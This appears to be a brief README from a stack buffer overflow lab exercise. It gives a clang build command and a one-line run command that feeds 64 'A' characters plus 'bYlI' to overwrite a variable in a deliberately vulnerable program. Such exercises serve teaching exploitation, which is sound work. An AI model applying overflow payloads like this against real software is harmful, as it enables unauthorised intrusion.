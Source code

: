 ### How to

Build source code
```
clang main.cpp -o stack.1.bin
```

Run and exploit (first try)
```
./stack.1.bin $(python3 -c "print('A' * 64 + 'bYlI')")
```